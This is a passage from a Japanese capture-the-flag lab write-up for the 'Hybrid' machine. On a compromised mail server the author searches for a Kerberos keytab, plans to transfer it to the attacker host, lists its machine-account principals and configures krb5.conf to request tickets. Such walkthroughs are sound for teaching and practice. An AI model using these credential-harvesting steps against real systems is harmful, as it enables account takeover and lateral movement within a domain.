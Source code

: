 Kerberos keytabファイルを確認する
```sh
root@mail01:~# find / -name "*.keytab" 2>/dev/null
/etc/krb5.keytab
root@mail01:~# ls -la /etc/krb5.keytab
-rw------- 1 root root 650 Jun 17  2023 /etc/krb5.keytab
```
mail01ではなにもできないので、攻撃者の方に転送する


krb5.keytabの中身を確認する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ klist -k krb5.keytab 
Keytab name: FILE:krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 MAIL01$@HYBRID.VL
   2 MAIL01$@HYBRID.VL
   2 MAIL01$@HYBRID.VL
   2 host/MAIL01@HYBRID.VL
   2 host/MAIL01@HYBRID.VL
   2 host/MAIL01@HYBRID.VL
   2 RestrictedKrbHost/MAIL01@HYBRID.VL
   2 RestrictedKrbHost/MAIL01@HYBRID.VL
   2 RestrictedKrbHost/MAIL01@HYBRID.VL

```

チケット取得を試す
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ cat << EOF | sudo tee /etc/krb5.conf
[libdefaults]
    default_realm = HYBRID.VL
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h

[realms]
    HYBRID.VL = {
        kdc = 10.10.206.37
        admin_server = 10.10.206.37
    }
EOF
[sudo] password for kali: 
[libdefaults]
    default_realm = HYBRID.VL
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h

[realms]
    HYBRID.VL = {
        kdc = 10.10.206.37
        admin_server = 10.10.206.37
    }
```
